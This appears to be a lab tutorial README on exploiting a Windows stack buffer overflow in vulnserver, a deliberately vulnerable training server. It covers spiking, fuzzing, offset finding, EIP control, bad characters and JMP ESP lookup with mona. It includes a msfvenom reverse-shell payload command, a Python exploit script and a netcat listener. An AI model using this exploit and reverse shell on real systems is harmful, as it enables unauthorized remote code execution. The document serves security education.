



# Windows Buffer Overflow

## Introduction
In this project, we will explore the concept of a buffer overflow vulnerability in Windows. A buffer overflow occurs when more data is written to a buffer than it can hold, potentially allowing an attacker to execute arbitrary code. We will use tools like Immunity Debugger, vulnserver, Windows 10, and Kali Linux to demonstrate a buffer overflow exploit.

## Tools Used
1. **Immunity Debugger**: A powerful debugger for analyzing and exploiting vulnerabilities.
2. **vulnserver**: A vulnerable server application designed for educational purposes.
3. **Windows 10**: The target operating system.
4. **Kali Linux**: The attacker’s machine with penetration testing tools.

## Prerequisites
- Basic understanding of buffer overflow vulnerabilities.
- Knowledge of Windows and Linux operating systems.
- Experience with basic networking concepts.

## Setup
### Installing Immunity Debugger
1. Download Immunity Debugger from the official website.
2. Install Immunity Debugger on Windows 10 machine.

*Ref 1: Installing Immunity Debugger*

 
 
 
 
 


### Setting Up vulnserver
1. Download vulnserver from the official repository.
2. Extract the vulnserver executable to a directory on Windows 10 machine.
3. Run vulnserver by executing `vulnserver.exe` from the command line.

*Ref 2: Set Up Vulnserver*


 
 

### Configuring Kali Linux
1. Ensure that Kali Linux machine is on the same network as Windows 10 machine.
2. Install necessary tools, such as `metasploit` and `netcat`.

## Steps
### 1. Identifying the Vulnerability
1. Launch Immunity Debugger on a Windows 10 machine.
2. Attach Immunity Debugger to the vulnserver process by selecting `File -> Attach` and choosing `vulnserver.exe`.
3. Press F9 key to change its state from paused to running.
4. Connect to the vulnserver using netcat command.

For e.g; nc -nv ip_address port

*Ref 3: Running Vulnserver*

  

### 2. Spiking
1. Identifying a vulnerable parameter.

*Ref 4: Spiking*

  
  

### 3. Fuzzing
1. Use a fuzzer to send random data to vulnserver and identify potential crash points.
2. On Kali Linux, create a simple fuzzer script in Python.
3. Run the python script.

*Ref 5: Fuzzing*

    
   

### 4. Finding the Offset
1. Find the exact offset where the buffer overflow occurs using the pattern generation and pattern offset tools provided by Metasploit.
2. Generate a unique pattern:
    ```bash
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 6900
    ```
3. Send the unique pattern to vulnserver and note the EIP value in Immunity Debugger.
4. Determine the offset:
    ```bash
    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 6900 -q EIP_VALUE
    ```
*Ref 6: Finding the offset*

  
  

### 5. Overwriting the EIP
1. Modify and execute a python script.
Note: EIP value = 42424242
2. We see that the EIP is overwritten with "BBBB". This means that we can control the EIP.

*Ref 7: Overwriting the EIP*

  


### 6. Finding Bad Characters
1. We will use mona.py python script as follows:
Commands:

!mona bytearray

*Ref 8: Finding bad characters*

  
  
 

### 7. Finding the Right Module
1. Utilizing the mona.py script.

Commands:

!mona modules

!mona find -s "\xff\xe4" -m essfunc.dll

2. Set a breakpoint.

a. Click the pointer in the window in the top left-hand corner.

b. Press F2 key to set a breakpoint.

3. Run the python script.

python2 find-right-module.py


*Ref 9: Finding the Right Module*

   
  

### 8. Exploit Development
1. Generating a payload using msfvenom:

sudo msfvenom -p windows/shell_reverse_tcp LHOST=Ip address of kali Linux LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"

2. Create a Python script to send the exploit payload.
3. On Kali Linux, create a simple script in Python:
 ```python
#!/usr/bin/python
from __future__ import print_function
import sys, socket

overflow = ("Paste the payload")

shellcode = "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" * 32 + overflow

try:
     s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
     s.connect(('192.168.1.97',9999))
     s.send(('TRUN /.:/' + shellcode))
     s.close()

except:
     print("Error connecting to server")
     sys.exit()
 ```

4. Start a netcat listener.
nc -nvlp 4444

### 5. Executing the Exploit
1. Replace the 'payload' variable with the shellcode generated by a tool like 'msfvenom'.
2. Run the exploit script from a Kali Linux machine.
3. Observe the reverse shell connection on a Kali Linux machine.

*Ref 10: Exploit Development - Generating shellcode | Gaining Root

  
  

## Conclusion
By following these steps, we have successfully demonstrated a buffer overflow vulnerability and developed an exploit for it. This project emphasizes the importance of secure coding practices and proper input validation to prevent such vulnerabilities.
